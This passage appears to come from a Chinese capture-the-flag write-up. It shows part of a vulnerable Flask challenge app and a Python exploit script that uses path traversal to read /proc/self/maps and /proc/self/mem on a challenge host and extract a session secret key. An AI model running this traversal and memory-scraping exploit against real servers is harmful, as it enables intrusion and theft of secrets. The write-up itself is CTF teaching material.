 ```python
    name = request.args.get('file', "")[:request.args.get('file', "").index('.')]

    return render_template("detail.html", catname=name, info=cat(filename, start, end))
 


@app.route('/admin', methods=["GET"])
def admin_can_list_root():
    if session.get('admin') == 1:
        return flag
    else:
        session['admin'] = 0
    return "NoNoNo"



if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5637)
```

然后就是读内存分布，然后模式匹配了

```python
import requests
import re
import dataclasses

@dataclasses.dataclass
class entry:
    start: str
    end: str
    permission: str

def main() -> None:
    maps_resp = requests.get('http://61.147.171.105:52143/info?file=../../../../../../proc/self/maps')
    maps = re.search(r'<p>(.*)</p>', maps_resp.text).group(1)
    matches = re.findall(r'([0-9a-f]{12})-([0-9a-f]{12}) ([-rwxp]{4})', maps)
    entries = [entry(start, end, permission) for start, end, permission in matches]
    
    for e in entries:
        if 'r' in e.permission and 'w' in e.permission:
            start_addr, end_addr = int(e.start, 16), int(e.end, 16)
            
            mem_resp = requests.get(f'http://61.147.171.105:52143/info?file=../../../../../../proc/self/mem&start={start_addr}&end={end_addr}')
            mem = re.search(r'<p>(.*)</p>', mem_resp.text).group(1)
            matches = re.search(r'[a-f0-9]{32}\*abcdefgh', mem)
            if matches:
                print(f"Found in {e}")
                print(f"Secret key: {matches.group(0)}")
                break
            

if __name__ == '__main__':
    main()
```
